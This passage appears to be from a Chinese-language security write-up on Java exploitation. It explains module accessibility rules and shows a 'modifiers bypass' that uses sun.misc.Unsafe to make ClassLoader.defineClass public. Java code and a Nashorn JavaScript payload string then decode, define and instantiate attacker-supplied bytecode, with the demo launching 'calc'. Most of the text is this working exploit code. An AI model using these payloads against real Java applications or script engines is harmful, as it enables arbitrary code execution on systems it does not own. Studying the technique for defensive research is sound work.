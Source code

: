 可以看到是否可访问取决于如下条件：

* 目标类为Public
  * 待访问的成员为Public
  * 待访问的成员为Protected、Static，且调用方是目标类的子类
* 目标类的模块对调用方的模块开放

### modifiers Bypass

根据上面的可访问条件，`ClassLoader`为PUBLIC，我们只需将`defineClass`方法的修饰符修改为`PUBLIC`即可

Java版本：

```java
public static void bypassModifier() throws Exception {
    Class<?> clazz = Class.forName("sun.misc.Unsafe");
    Field field = clazz.getDeclaredField("theUnsafe");
    field.setAccessible(true);
    Unsafe unsafe = (Unsafe) field.get(null);

    Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    Field modifiers = defineClassMethod.getClass().getDeclaredField("modifiers");
    unsafe.putShort((Object) defineClassMethod, unsafe.objectFieldOffset(modifiers), (short) Modifier.PUBLIC);

    byte[] bytes = getEvilCode("calc");
    Class<?> aClass = (Class<?>) defineClassMethod.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
    aClass.newInstance();
}
```

Js版本：

```java
public static String getJsPayload3(String code) throws Exception {
    return "var data = '" + code + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var Unsafe = Java.type(\"sun.misc.Unsafe\");" +
        "var field = Unsafe.class.getDeclaredField(\"theUnsafe\");" +
        "field.setAccessible(true);" +
        "var unsafe = field.get(null);" +
        "var Modifier = Java.type(\"java.lang.reflect.Modifier\");" +
        "var byteArray = Java.type(\"byte[]\");" +
        "var int = Java.type(\"int\");" +
        "var defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(" +
        "\"defineClass\",byteArray.class,int.class,int.class);" +
        "var modifiers = defineClassMethod.getClass().getDeclaredField(\"modifiers\");" +
        "unsafe.putShort(defineClassMethod, unsafe.objectFieldOffset(modifiers), Modifier.PUBLIC);" +
        "var cc = defineClassMethod.invoke(" +
        "java.lang.Thread.currentThread().getContextClassLoader(),bytes,0,bytes.length);" +
        "cc.newInstance();";
}
```
